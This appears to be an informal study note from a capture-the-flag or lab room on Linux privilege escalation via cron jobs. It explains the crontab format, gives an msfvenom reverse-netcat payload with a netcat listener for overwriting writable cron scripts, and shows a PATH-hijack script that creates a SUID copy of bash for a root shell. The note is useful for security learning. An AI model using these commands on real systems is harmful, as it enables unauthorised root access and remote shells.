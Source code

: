 Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 
### format
ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,

hastag  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
### Exploting if it is writable
Using msf venom you can generate a script and replace the old file if you have permission. In my case the payload was 'msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R'. you can then replace the file with 'echo 
[MSFVENOM OUTPUT] > autoscript.sh" and set up a listner with "nc -lvnp 8888"


### Exploiting path variableo of crontab
not 100% sure on this one but if the path of the crontab starts with /home/NAMEOFUSERYOUCONTROL and their is a file there is an sh file that they auto run then you can create the roots version of bash?

Create a file called overwrite.sh in your home directory with the following contents:
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:
```
chmod +x /home/user/overwrite.sh
```
Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```
### Crontab Jobs - Wildcards
??????
View the contents of the other cron job script:
```
cat /usr/local/bin/compress.sh
```
Note that the tar command is being run with a wildcard (*) in your home directory.
